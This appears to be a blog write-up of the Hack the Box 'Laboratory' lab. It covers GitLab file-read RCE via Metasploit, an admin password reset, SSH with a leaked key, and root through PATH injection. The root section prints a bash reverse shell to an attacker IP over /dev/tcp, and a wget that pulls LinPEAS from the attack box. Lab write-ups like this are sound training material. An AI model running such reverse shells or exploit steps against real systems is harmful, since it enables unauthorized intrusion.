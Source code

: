 ```yaml
---
weight: 1
title: "Hack the Box - Laboratory"
date: 2021-04-16T14:00:01+08:00
lastmod: 2021-04-16T14:00:01+08:00
draft: false
author: "HcKy"
authorLink: ""
description: "Hack the Box Laboratory Write-up"
resources:
- name: "featured-image"
  src: "lab.png"
  
  
tags: ["GitLab", "CVE", "PATH injection", "HTB"]
categories: ["write-ups"]

lightgallery: true
linkToMarkdown: false

toc:
  auto: false
---
```


<div style="text-align:center">Write-up of Laboratory - Difficulty : Easy </div>

<!--more-->

>Just do it  
>  
> -Shia Lebeouf  

## 1. Overview

Laboratory is a Linux box running a vulnerable version of GitLab.  
Utilizing a known vulnerability we can reset the admin password and gain access to a stored SSH key.  
An executable stored on the victim is vulnerable to PATH injection and can be used to gain root access.  z


## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22, 80, and 443 are open.  

``` bash 
 nmap -sC -sV -T4 10.129.130.16
```

![nmap](nmap.png)  

There's a redirect on 443 leading to **https://laboratory.htb**  

### 2.2 Websites
#### 2.2.1 laboratory.htb
We can't get to the site by just browsing to the IP address so we'll have to add it to our **/etc/hosts/** file before browsing to https://laboratory.htb.  
We can see that there's a certificate error. When we view the cert we can see an alternate name listed for **git.laboratory.htb**.

![gem](cert.png)  

Nothing else useful is on the site so we move over to git.laboratory.htb.


#### 2.2.2 git.laboratory.htb

As we poke around the GitLab site we find that we can register a user and login. The website only allows @laboratory.htb emails to be registered but doesn't require any verifcation before it logs you in.  

![proc](register.png)  

When we get into GitLab the first thing is to check the version, which turns out to be **GitLab Community Edition 12.8.1**. After some googling we wind up at https://hackerone.com/reports/827052 which details a security vulnerability involving read access to system files. This vulnerability can be used to get RCE on the host.  

We need to get the contents of the **secrets.yml** file. To do so we make a two projects, create an issue in one project, and then move that issue over to the other project. That should make GitLab include the actual file we specify in an attachment on the issue.  

![git](newissue.png)   <br>
![git](moveissue.png)  <br>
![git](issue2.png)  

## 3. Foothold

For this part we're going to cheat a little and use Metasploit since there's a module available. If we use **exploit/multi/http/gitlab_file_read_rce** it should give use RCE on the box. After filling out all the options (and putting in the secret key we got from before) we can just run the exploit and get a shell as **git**.  
I believe the exploit is able to grab that secrets file itself but wasn't working for me whenver I tried it.

![git1](msf.png)

## 4. User

The user git has access to the gitlab-rails console so we'll be able to reset the password for other users on GitLab. We find the necessary documentation at https://docs.gitlab.com/12.10/ee/security/reset_root_password.html. After performing all the necessary steps listed we can simply log in as the user Dexter.  

![curl](gitadmin.png)



## 5. Second User

Back we go to the GitLab page to login as Dexter. We can see that he has a project called SecureDocker which for some reason has his private key uploaded in the repo. We can take that key and save it to a text file on our attack box. Using the key we can SSH over as Dexter and grab the user flag. 
```
chmod 600 FILE
ssh -i FILE dexter@10.129.130.16
```

![root](dexproj.png)  
![ssh](userflag.png)  

##6. Root

First thing we do is upload **LinPEAS** to the victim and run it. We host the file with **python3 -m http.server** and the grab it with our remote shell with **wget http://10.10.14.124:8000/linpeas.sh**.  
<br>
LinPEAS finds a file with the SUID bit set in **/usr/local/bin**  
![bin](suid.png)  
<br>
Running that file doesn't appear to do anything so we upload **PSpy** to see if it's doing something in the background that we can't see.  
![py](dockersec.png)  
<br>
When we run it again we can see that it's running some commands, but it's not using the absolute path of **chmod** which means that it's most likely vulnerable to PATH injection.  
We make a file in **/tmp** named chmod and fill it with the following bash reverse shell.  
```bash
#!/bin/bash
bash - >& /dev/tcp/10.10.14.124/7233 0>&1
```
After creating out file we need to make sure that docker-security will run our chmod command and not the system's by adding /tmp to our PATH variable with **PATH=/tmp:$PATH**. We start out netcat listener and run docker-security to get our root shell and the root flag.

![root](root.txt.png)





## Conclusion

1. Update software to ensure known vulnerabilites are mitigated. 
2. Don't upload private keys to an easily accessible location.
3. Ensure any scripting is utilizing absolute path for commands to prevent PATH injection vulnerabilites.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"><img src="https://www.hackthebox.eu/badge/image/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>
